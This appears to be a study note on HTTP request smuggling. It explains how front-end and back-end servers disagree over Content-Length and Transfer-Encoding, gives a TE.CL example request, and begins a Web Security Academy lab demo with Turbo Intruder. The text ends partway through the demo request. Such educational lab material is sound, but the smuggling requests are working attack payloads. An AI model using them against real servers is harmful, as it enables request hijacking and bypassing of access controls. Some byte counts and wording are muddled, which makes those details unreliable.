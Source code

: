 Note how `Content-Length` indicate the **bodies request length is 30 bytes long** (_remember that HTTP uses as new line, so 2bytes each new line_), so the reverse proxy **will send the complete request** to the back-end, and the back-end will process the `Transfer-Encoding` header leaving the `GET /404 HTTP/1.1` as the **begging of the next request** (AND, the next request will be appended to `Foo:x<Next request starts here>`).

>
  _**With H/1 , there is disagreement  between the Front End and the Back End
  server, on whether to use the Content-Length, or the Transfer -Encoding header, to know the length of the message.
>This is what makes it exploitable.
>
>This does not exist in H/2 because the length is built into the frame layer
>

---

##### TE.CL
Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. (That's why those two headers are in both requests) We can perform a simple HTTP request smuggling attack as follows:

>`POST / HTTP/1.1`  
>`Host: vulnerable-website.com`  
>`Content-Length: 4`  
>`Connection: keep-alive`  
>`Transfer-Encoding: chunked`   <- used by the front end in TE.CL 
>
>` 7b` <-- 4 bytes to be processed as specified by the `Content-Length` in the 1st request
>`GET /404 HTTP/1.1`
>`Host: vulnerable-website.com`
>`Content-Type: application/x-www-form-urlencoded`
>`Content-Length: 30`  
>`x=`  
>`0`  


In this case the **reverse-proxy** will **send the whole request** to the **back-end** as the **`Transfer-encoding`** indicates so. But, the **back-end** is going to **process** only the **`7b`** (4bytes) as indicated in the `Content-Lenght` .Therefore, the next request will be the one starting by `GET /404 HTTP/1.1`

---
#### _Demo: 
- Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

- Using the Turbo Intruder TE.CL Attack, Multiple duplicate requests made, in this order:

POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked
